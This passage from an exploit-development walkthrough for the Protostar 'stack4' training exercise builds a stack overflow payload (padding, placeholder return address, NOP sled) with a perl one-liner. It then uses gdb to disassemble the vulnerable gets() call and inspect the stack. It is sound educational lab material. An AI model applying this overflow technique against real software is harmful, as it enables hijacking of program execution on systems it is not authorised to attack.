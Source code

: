 Basically, we will provide enough NOP instructions to ensure that we land there, executing our shellcode.

A NOP has an opcode of `\x90`.

Now let's create a payload and determine the address that we are going to jump to.


```bash
user@protostar:/opt/protostar/bin$ payload=$(perl -e 'print "A" x 76 . "BBBB" . "\x90" x 100')

user@protostar:/opt/protostar/bin$ echo $payload > /tmp/yariss/payload 
```

```bash
user@protostar:/opt/protostar/bin$ gdb ./stack4
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   %ebp
0x08048409 <main+1>:    mov    %esp,%ebp
0x0804840b <main+3>:    and    $0xfffffff0,%esp
0x0804840e <main+6>:    sub    $0x50,%esp
0x08048411 <main+9>:    lea    0x10(%esp),%eax
0x08048415 <main+13>:   mov    %eax,(%esp)
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) b *main+21
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) run < /tmp/yariss/payload 

```

Let's now examine the stack.

```bash
(gdb) x/64wx $esp
0xbffff6f0:     0xbffff700      0xb7ec6165      0xbffff708      0xb7eada75
0xbffff700:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff710:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff720:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff730:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x42424242
0xbffff750:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff760:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff770:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff780:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff790:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7a0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b0:     0x90909090      0xb7ff6200      0xb7eadb9b      0xb7ffeff4
0xbffff7c0:     0x00000001      0x08048340      0x00000000      0x08048361
0xbffff7d0:     0x08048408      0x00000001      0xbffff7f4      0x08048430
0xbffff7e0:     0x08048420      0xb7ff1040      0xbffff7ec      0xb7fff8f8
```
